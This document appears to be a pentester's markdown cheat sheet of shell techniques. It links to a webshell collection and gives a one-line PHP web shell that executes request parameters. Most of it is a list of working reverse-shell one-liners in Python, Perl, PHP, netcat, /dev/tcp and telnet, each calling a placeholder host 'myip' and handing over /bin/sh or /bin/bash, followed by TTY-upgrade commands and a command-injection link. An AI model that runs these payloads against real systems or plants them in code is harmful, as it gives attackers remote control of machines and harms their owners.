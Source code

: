 # Shells

## Table of Contents

## Web Shells

### Tennc Webshell Collection

This is a massive collections of webshells
- https://github.com/tennc/webshell

- PHP
	- [c99](https://github.com/tennc/webshell/blob/master/php/PHPshell/c99/c99.php)
	- simple: `<?php echo system($_REQUEST['cmd']); ?>`
- ASP
	- [ASP Webshell](https://github.com/tennc/webshell/blob/master/asp/webshell.asp)

## Reverse Shell

### Catch Reverse Shell

- netcat listener for receieving reverse shell
```
nc -nvlp 1234
```

### Throw Reverse Shell

- python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("myip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- perl reverse shell
```
perl -e 'use Socket;$i="myip";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- php reverse shell
```
php -r '$sock=fsockopen("myip",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- basic netcat reverse shell (GNU netcat)
```
nc -c /bin/bash <myip> 1234
```

- basic netcat reverse shell (BSD netcat)
```
/bin/sh -i 2>&1 | nc myip 1234
```

- /dev/tcp reverse shell
```
/bin/bash -i > /dev/tcp/myip/1234 0<&1 2>&1
# or without bash assumptions
exec 5<>/dev/tcp/myip/1234; cat <&5 | while read line; do $line 2>&5 >&5; done
```

- ubuntu reverse shell using telnet
```
rm /tmp/backpipe; mknod /tmp/backpipe p && telnet myip 1234 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe
```

- reverse shell for when the shell closes right away
```
#listen on port 1234 and 1235
telnet myip 1234 | /bin/bash 2>&1 | telnet myip 1235
#issue commands in 1234 shell and get response in 12345 shell
#or with nc
nc myip 1234 | sh 2>&1 | nc myip 1235
```
## Shell Utils

- get a tty from within a reverse shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

- improve the shell!
```
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty -a | head -n1
stty raw -echo
fg
export HOME=/root
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows X columns Y
```
	- source: https://nullsec.us/fixing-a-raw-shell/

## Command Injection Utils

### Command Injection Without Spaces
- http://www.betterhacker.com/2016/10/command-injection-without-spaces.html
